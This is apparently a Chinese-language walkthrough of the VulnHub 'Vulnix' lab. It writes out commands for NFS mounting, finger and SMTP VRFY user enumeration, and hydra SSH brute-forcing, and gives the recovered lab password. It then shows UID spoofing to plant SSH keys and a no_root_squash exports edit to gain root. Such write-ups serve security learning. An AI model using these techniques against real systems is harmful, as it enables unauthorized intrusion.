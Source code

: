 ```yaml
---
layout: post
title:  "vulnhub >_ vulnix"
description: walkthrough
category: vulnhub
---
```

# vulnix



![image-20200612031806183]({{ site.url }}/assets/vulnix.assets/image-20200612031806183.png)

看到nfs了先测试一下

![image-20200612095103606]({{ site.url }}/assets/vulnix.assets/image-20200612095103606.png)

```bash
sudo mount -t nfs 192.168.1.115:/home/vulnix nfs
```

![image-20200612095156524]({{ site.url }}/assets/vulnix.assets/image-20200612095156524.png)

![image-20200612095242901]({{ site.url }}/assets/vulnix.assets/image-20200612095242901.png)

权限不足，需要为装成一个本地账户的UID才能读取



无权限，继续扫描

![image-20200612032402134]({{ site.url }}/assets/vulnix.assets/image-20200612032402134.png)

finger：详细介绍可以参见我的`HTB_Sunday`的walkthrough

使用以下脚本

http://pentestmonkey.net/tools/user-enumeration/finger-user-enum

```bash
./finger-user-enum.pl -U /usr/share/seclists/Usernames/top-usernames-shortlist.txt -t 192.168.43.122
```

大小字典都打了一下，没什么合适的线索。只确认了两个用户root和user

![image-20200612090201068]({{ site.url }}/assets/vulnix.assets/image-20200612090201068.png)

![image-20200612085323977]({{ site.url }}/assets/vulnix.assets/image-20200612085323977.png)

```bash
ehlo 192.168.1.115
```

Postfix邮件打招呼，发现支持VRFY命令。可以枚举用户名

```bash
smtp-user-enum -M VRFY -U /usr/share/metasploit-framework/data/wordlists/unix_users.txt -t 192.168.1.115
```

![image-20200612085946908]({{ site.url }}/assets/vulnix.assets/image-20200612085946908.png)

再次认证了两个用户，root和user

hydra暴力测试ssh

```bash
hydra -l user -P /usr/share/wordlists/rockyou.txt -t 4 ssh://192.168.1.115
```

![image-20200612093149557]({{ site.url }}/assets/vulnix.assets/image-20200612093149557.png)

```bash
user:letmein
```

![image-20200612095616871]({{ site.url }}/assets/vulnix.assets/image-20200612095616871.png)

常规枚举发现sudo拥有S位。但是。user并在sudoer内

![image-20200612095706526]({{ site.url }}/assets/vulnix.assets/image-20200612095706526.png)

利用usr账户查看可能利于的帐户

![image-20200612095810671]({{ site.url }}/assets/vulnix.assets/image-20200612095810671.png)

推测nfs的权限也应该是这个帐户

参考`/etc/passwd`确认UID

![image-20200612095902404]({{ site.url }}/assets/vulnix.assets/image-20200612095902404.png)

kali本地增加新用户

```bash
sudo useradd -u 2008 vulnix
```

重新进入挂载的nfs，但是并没有有用信息，

因为目录是远程的/home/vulnix，所以，可以利用ssh的特性在目录下生成ssh，从而让我们可以以vulnix的身份通过ssh进入目标。

```bash
mkdir .ssh
cd .ssh
ssh-keygen
```

![image-20200612111510521]({{ site.url }}/assets/vulnix.assets/image-20200612111510521.png)	



```bash
mv id_rsa.pub authorized_keys
cat id_rsa
```

cat显示。将内容复制下来，在kali本机生成同样文件，记得给600

![image-20200612112030620]({{ site.url }}/assets/vulnix.assets/image-20200612112030620.png)

使用私钥文件登录服务器

```bash
ssh -i id_rsa vulnix@192.168.1.115
```

![image-20200612112326383]({{ site.url }}/assets/vulnix.assets/image-20200612112326383.png)

![image-20200612112822781]({{ site.url }}/assets/vulnix.assets/image-20200612112822781.png)

执行这条命令可以编辑exports文件，这个文件是设置nfs挂载的，再最下面添加一行，吧/root也加入挂载

```bash
/root           *(no_root_squash,insecure,rw)
```

![image-20200612114900842]({{ site.url }}/assets/vulnix.assets/image-20200612114900842.png)

之后需要重启目标。。

之后只是重复之前的步骤，挂载root，目录，为root生成密钥，ssh登录。